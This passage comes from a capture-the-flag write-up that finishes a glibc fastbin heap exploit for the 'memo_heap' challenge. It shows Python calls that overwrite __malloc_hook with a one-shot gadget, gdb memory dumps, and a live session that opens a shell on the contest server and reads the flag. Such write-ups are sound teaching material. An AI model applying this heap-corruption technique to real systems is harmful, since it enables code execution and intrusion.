 We successfully managed to overwrite `memo_4`'s FD pointer with `0x7ffff7dd1aed`, which is an address quite close to `__malloc_hook`.
The next two name allocations, as long as they are of size `0x68` or `0x60` will return `0x555555757210` and `0x00007ffff7dd1aed`.
Finally, all we have to do is overwrite `__malloc_hook`'s address with `one shot gadget`'s and trigger the final and lethal
allocation.

```python
# Return 0x555555757210
alloc(0x68, 'rekt')
```

```
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7ffff7dd1aed
(0x80)     fastbin[6]: 0x0

gdb-peda$ x/gx &__malloc_hook
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000
```

```python
# __malloc_hook => one shot gadget
alloc(0x68, 'A'*0x13+p64(oneshot))
# Trigger one shot gadget
r.sendline('1')
```

```
gdb-peda$ x/gx &__malloc_hook
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7afe147 <-- one shot gadget
```

Et voilà.

```
[+] Opening connection to memoheap.acebear.site on port 3003: Done
[+] Libc:          0x7f2354da6000
[+] __malloc_hook: 0x7f235516ab10
[+] Heap:          0x558b2c91c000
[*] Switching to interactive mode
Done!
***************Menu****************
1 - Create memo
2 - Edit memo
3 - Show memo
4 - Delete memo
5 - Exit
***************Menu****************
Your choice:
$ cat home/memo_heap/flag
AceBear{w4iting_h4rd3r_ch4ll3ng3_fr0m_m3}
```
